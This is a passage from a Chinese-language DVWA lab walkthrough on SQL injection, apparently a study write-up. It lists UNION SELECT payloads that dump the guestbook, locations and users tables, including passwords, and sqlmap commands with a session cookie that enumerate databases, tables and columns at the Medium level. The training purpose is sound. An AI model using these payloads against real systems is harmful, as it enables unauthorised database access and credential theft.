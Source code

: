 
`1 union select group_concat(comment_id,comment),group_concat(name) from guestbook #`

![image-20211101194948677](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951841.png)

- ###### locations表：

`1 union select group_concat(name,latitude),group_concat(longtitude) from locations #`

![image-20211102214933359](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951091.png)

- ###### users表：

`1 union select group_concat(user_id,first_name,last_name,user),group_concat(password,avatar,last_login,failed_login) from users #`

![image-20211101195034342](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951117.png)



------

#### 【Medium-sqlmap】

##### ①sqlmap-POST

因为是POST操作，所以sqlmap需要增加参数 `--data="id=1&Submit=Submit"`。

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/" --data="id=1&Submit=Submit" --cookie="security=medium; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch`

![image-20211102220159049](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951550.png)

之后的操作基本上和Low一样。

##### ②简略过程

###### 使用 `--dbs`查看数据库

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/" --data="id=1&Submit=Submit" --cookie="security=medium; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch --dbs`

![image-20211102220424754](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951488.png)

###### 查看dvwa 数据库中的表

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/" --data="id=1&Submit=Submit" --cookie="security=medium; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa --tables`

![image-20211102220547085](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951506.png)

###### 查看表guestbook中的列和数据

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/" --data="id=1&Submit=Submit" --cookie="security=medium; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa -T guestbook --columns`

![image-20211102220652378](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031951944.png)
